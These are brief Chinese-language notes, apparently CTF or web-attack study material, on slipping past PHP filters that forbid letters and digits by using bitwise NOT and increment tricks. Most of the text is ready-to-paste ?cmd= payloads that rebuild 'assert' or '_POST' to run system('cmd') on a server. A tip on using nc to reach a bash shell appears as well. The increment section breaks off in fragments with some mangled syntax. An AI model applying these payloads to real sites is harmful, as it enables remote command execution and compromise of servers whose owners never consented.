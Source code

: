 

# 无字母数字取反绕过

**取反运算:**

`~()`

例如'a'取反运算是9e

```
<?php
$a="%9e";
$b=~(urldecode($a));
echo $b;
?>
```

可以不出现a就得到字符a

使用**取反运算POC生成脚本.php**

## PHP5下使用assert

构造payload:

`?cmd=$_=~"%9e%8c%8c%9a%8d%8b";$__=~"%a0%af%b0%ac%ab";$___=$$__;$_($___['_']);`

同时使用hackbar提交post

`_=system('cmd');`

执行命令

## PHP7下使用反引号

后再payload:

?cmd=$_=~"%a0%af%b0%ac%ab";$__=$$_;`$__[_]`;     **#奇奇怪怪,粘贴上去会出现原来形式**

?cmd=$_=~("%a0%af%b0%ac%ab");$__=$$_;`$__[_]`;

在搭配nc命令链接到linux bash上面



# 无字母数字自增绕过

自增`++`

`$_=[].'''`

`echo $_;`         #[]数组   .  拼接''字符串    输出Array(字符串)

读取'Array'的0号字符

`echo $_[$__];`               #``$__`变量不存在,假值为0


